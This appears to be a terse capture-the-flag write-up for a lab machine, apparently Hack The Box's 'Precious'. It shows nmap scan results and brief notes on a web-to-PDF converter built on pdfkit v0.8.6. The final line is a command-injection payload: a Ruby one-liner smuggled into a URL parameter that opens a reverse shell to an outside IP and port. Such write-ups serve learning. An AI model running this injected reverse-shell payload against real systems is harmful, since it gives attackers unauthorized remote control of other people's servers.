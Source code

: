 # Nmap
```
# Nmap 7.92 scan initiated Wed Feb  1 18:53:36 2023 as: nmap -sC -sV -oN nmap/init 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.60s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE            VERSION
22/tcp   open     ssh                OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp   open     http               nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
6881/tcp filtered bittorrent-tracker
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  1 18:55:15 2023 -- 1 IP address (1 host up) scanned in 99.05 seconds
```

# Webpage
plain webpage
convert web page to pdf

pdf made with pdfkit v0.8.6/?name=%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.39",9001))')
